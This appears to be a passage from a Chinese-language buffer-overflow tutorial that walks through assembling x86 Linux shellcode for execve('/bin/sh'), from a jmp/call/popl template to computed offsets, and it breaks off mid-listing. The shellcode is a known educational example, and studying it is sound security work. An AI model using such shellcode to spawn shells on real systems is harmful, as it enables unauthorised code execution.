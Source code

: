 ------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; offset-to-call&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,array-offset(%esi)&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,nullbyteoffset(%esi)# 4 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,null-offset(%esi)&nbsp; &nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;array-offset(%esi),%ecx&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;null-offset(%esi),%edx&nbsp; &nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;offset-to-popl&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;/bin/sh string goes here.

------------------------------------------------------------------------------

&nbsp;&nbsp;

&nbsp; &nbsp; 通过计算从jmp到call, 从call到popl, 从字串地址到数组, 从字串地址到空长字的

偏量, 我们得到:

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; 0x26&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 4 bytes
